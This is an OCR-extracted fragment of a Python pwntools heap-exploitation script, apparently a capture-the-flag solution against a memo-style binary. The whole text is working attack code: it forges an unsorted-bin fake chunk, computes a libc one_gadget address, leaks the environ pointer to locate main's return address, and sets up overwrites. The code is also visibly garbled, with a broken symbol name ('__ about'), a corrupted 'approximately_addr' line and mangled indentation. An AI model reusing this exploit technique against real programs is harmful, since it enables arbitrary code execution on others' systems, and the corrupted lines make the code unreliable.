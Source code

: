 ```python
    for i in range(number_of_zeros + 1):

        data = diff_strip.rjust(0x18 - i, 'f')

        edit(1, data)

    delete(2)

    p.recvuntil('\nDeleted.')



    # fix the fake chunk size, fd and bk

    # fd and bk must be unsorted bin

    edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +

         p64(main_arena + 88))



    # 3. overwrite malloc_hook with one_gadget



    one_gadget_addr = libc_base + 0x45216

environ_pointer = libc_base + libc.symbols [&#39;__ about&#39;]
    log.info('one gadget addr: ' + hex(one_gadget_addr))

    log.info('environ pointer addr: ' + hex(environ_pointer))

    #fake_malloc_chunk = main_arena - 60 + 9

    # set memo[0].size = 'a'*8,

    # set memo[0].content point to environ to leak environ addr

    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(

        environ_pointer) + 'a' * 8 + p64(0x602148)

    # get a fake chunk

    add(0x100 - 8, fake_pad)  # idx 2

    #gdb.attach(p)



    # get environ addr

    p.recvuntil(' # CONTENT: ')

    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')

approximately_addr = u64 (approximately_addr)
    main_ret_addr = environ_addr - 30 * 8



    # set memo[0].content point to main_ret_addr
```